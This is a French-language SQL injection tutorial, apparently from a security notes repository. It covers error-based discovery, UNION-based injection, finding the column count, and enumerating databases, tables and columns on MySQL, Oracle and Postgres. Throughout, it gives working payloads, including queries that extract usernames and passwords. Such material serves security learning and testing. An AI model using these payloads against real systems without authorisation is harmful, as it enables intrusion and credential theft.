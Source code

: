 Ce type d'injection SQL est le plus utile pour obtenir facilement des informations sur la structure de la base de données car les messages d'erreur de la base de données sont imprimés directement sur l'écran du navigateur.

[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Découverte SQLi 

La clé pour découvrir l'injection SQL basée sur les erreurs est de: 

- Casser la requête SQL en essayant certains caractères jusqu'à ce qu'un message d'erreur soit produit ; il s'agit le plus souvent des caractères comme:

```sh
' -> %27
" -> %22
# -> %23
; -> %3B
) -> %29
```

> Le fait de recevoir un message d'erreur confirme l'existence d'une vulnérabilité SQL Injection

## Injection sur UNION

Ce type d'injection utilise l'opérateur SQL UNION avec une instruction SELECT pour renvoyer des résultats supplémentaires à la page.

**1 - Renvoyer les données au navigateur sans afficher de message d'erreur.**

```sql
?id=0 UNION SELECT 1
```

Cette instruction produit un message d'erreur vous informant que `l'instruction UNION SELECT a un nombre de colonnes différent de celui de la requête SELECT d'origine.`

Essayons mais ajoutons une autre colonne jusqu'a le message d'erreur disparais:

```sql
?id=1 UNION SELECT 1,2,...
```

**2 - Afficher nos données**

Cela peut simplement être fait en changeant l'identifiant de l'article de `1 à 0`

```sql
?id=0 UNION SELECT 1,2,...
```

Maintenant l'article est simplement composé du résultat de la sélection UNION

**3 - Récupérer des informations plus utiles.**

On peut remplacer 1 par `null`

```sql
-- Obtenir le nom de la base de données:
0 UNION SELECT 1,2,database()

-- Affiche la version du serveur
0 UNION SELECT null, version()
```

Lister des tables qui se trouvent dans cette base de données:

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '{db_name}'

-- ou 

0 UNION SELECT null,table_name FROM INFORMATION_SCHEMA.tables

-- ou sur Oracle

0 UNION SELECT null,table_name FROM all_tables
```

Trouver la structure des tables (colones):

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '{db_table_name}'

-- ou 

0 UNION SELECT null,column_name FROM INFORMATION_SCHEMA.columns WHERE table_name='{db_table_name}'

-- ou sur Oracle

0 UNION SELECT null,column_name FROM all_tab_columns WHERE table_name='{db_table_name}'
```

Récupérer les informations:

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM {db_table_name}

-- ou 

0 UNION SELECT null, concat(user,0x0a,password) FROM {db_table_name}

-- ou sur Oracle et Postgres
0 UNION SELECT username || '~' || password FROM {db_table_name}--

```


### Comment déterminer le nombre de colonnes requises de la requête d'origine ?

Lorsque vous effectuez une attaque UNION par injection SQL, il existe deux méthodes efficaces pour déterminer le nombre de colonnes renvoyées par la requête d'origine.

- Une méthode consiste à injecter une série de clauses `ORDER BY` et à incrémenter l'index de colonne spécifié jusqu'à ce qu'une erreur se produise.

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

etc...
```

- La deuxième méthode consiste à soumettre une série de charges utiles `UNION SELEC` spécifiant un nombre différent de valeurs nulles :

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

etc...

' UNION SELECT NULL FROM DUAL--
```

- Après avoir déterminé le nombre de colonnes requises, vous pouvez tester chaque colonne pour vérifier si elle peut contenir des données de `type chaîne`.

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

-- Si le type de données de la colonne n'est pas compatible avec les données de chaîne, la requête injectée provoquera une erreur de base de données (Conversion failed when converting the varchar value 'a' to data type int.)

-- Si aucune erreur ne se produit et que la réponse de l'application contient du contenu supplémentaire, notamment la valeur de chaîne injectée, la colonne correspondante est alors adaptée à la récupération des données de chaîne.
```

- Lorsque vous avez déterminé le nombre de colonnes renvoyées par la requête d'origine et trouvé quelles colonnes peuvent contenir des données de chaîne, vous êtes en mesure de récupérer des données intéressantes.

- Récupération de plusieurs valeurs dans une seule colonne

```sql
' UNION SELECT username || '~' || password FROM users--
```